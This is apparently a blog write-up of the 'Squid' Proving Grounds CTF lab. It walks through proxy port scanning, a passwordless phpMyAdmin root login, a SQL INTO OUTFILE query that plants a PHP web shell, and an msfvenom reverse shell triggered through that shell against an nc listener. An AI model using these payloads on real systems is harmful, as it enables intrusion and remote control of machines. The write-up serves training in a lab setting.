 ```yaml
---
title: "Proving grounds Practice: Squid"
layout: post
date: 2023-08-20 06:00
categories: writeup
---
```


Proving grounds Practice - Squid CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE    VERSION
3128/tcp open  http-proxy Squid http proxy 4.14
|_http-server-header: squid/4.14
|_http-title: ERROR: The requested URL could not be retrieved
```

Squid http proxy service running on PORT 3128. Use [Squid Pivoting Open Port Scanner](https://github.com/aancw/spose) to perform PORT scanning.

![img](/assets/images/CTF/Proving_Grounds/Squid/pscan.png)

Configure the proxy `server IP` and `PORT` in the browser to access the webserver running on PORT 8080.

![img](/assets/images/CTF/Proving_Grounds/Squid/8080.png)

**System Information**

![img](/assets/images/CTF/Proving_Grounds/Squid/sysinfo.png)

**PHPMyadmin**

![img](/assets/images/CTF/Proving_Grounds/Squid/myadmin.png)

Login with username `root` and password as `null`.

Execute below sql query to create reverse shell.

```sql
SELECT "<?php system($_GET['cmd'])?>" INTO OUTFILE "C:/wamp/www/shell2.php"
```

As shown in the phpinfo() page the document root folder is `C:/wamp/www`. So the shell will be publicly accessible at `http://192.168.237.189:8080/shell2.php`.

## Remote Code Execution

```text
http://192.168.237.189:8080/shell2.php?cmd=whoami
```

![img](/assets/images/CTF/Proving_Grounds/Squid/if.png)

## Obtain Stable Shell using msfvenom

```sh
msfvenom -f exe -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=1234 -o mshell.exe
```

Use curl to download the shell in to the attacking machine. Run a `nc` llisterner and execute the reverse shell by visiting `http://192.168.237.189:8080/shell2.php?cmd=mshell.exe`

![img](/assets/images/CTF/Proving_Grounds/Squid/rshell.png)

Reverse shell obtained.

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).